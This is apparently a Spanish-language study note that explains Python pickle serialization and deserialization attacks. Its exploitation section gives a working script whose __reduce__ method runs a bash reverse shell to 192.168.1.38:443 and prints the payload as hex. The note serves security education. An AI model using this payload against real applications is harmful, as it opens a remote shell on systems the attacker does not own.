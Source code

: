 -----
- Tags: #ataques #basico #teoria #practica 
----

# ¿ Que es **Pickling** ? 

**Pickling** es el proceso mediante el cual una jerarquía de objetos de Python se convierte en una secuencia de bytes.

----

# ¿ Que es un **ataque de deserialización Pickle** ? 

Un **ataque de deserialización Pickle (DES-Pickle)** es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan la biblioteca Pickle para serializar y deserializar objetos. 

La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada Pickle que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada Pickle, puede permitir que un atacante inyecte código maliciosos en el objeto deserializado. 

Una vez que el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar el control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto.

Los atacantes  puede aprovecharse de las vulnerabilidades de DES-Pickle para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema. 

--- 

# Explotación 

Supongamos que tenemos una app la cual recibe una cadena hexadecimal en un objeto serializado con Pickle, la convierte a texto legible y la guarda en un archivo sin ningún tipo de validación. 

En el proceso de deserialización, en Pickle, hay una función llamada **__reduce__** la cual podemos controlar para que a la hora de deserializar una data, podemos ingresar a nivel de sistema como queremos que se deserialize o como queremos que se ejecute. Por lo que a la hora de realizar un ataque de deserialización en Pickle mayormente crearíamos un archivo tal que así: 

```python
import pickle, os, binascii 
# binascii para poder convertir la cadena a hexadecimal.

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/192.168.1.38/443 0>&1"',))

if __name__ == "__main__": 
    print(binascii.hexlify(pickle.dumps(Exploit())))
```

Creamos una clase con la función **__reduce__** la cual retorna lo que nos interesa que devuelva, en este caso la ejecución de un comando a nivel de sistema. Para posteriormente pesarle a la función **pickle.dumps()** para mostrar por consola la data serializada (El comando a ejecutar a nivel de sistema). 

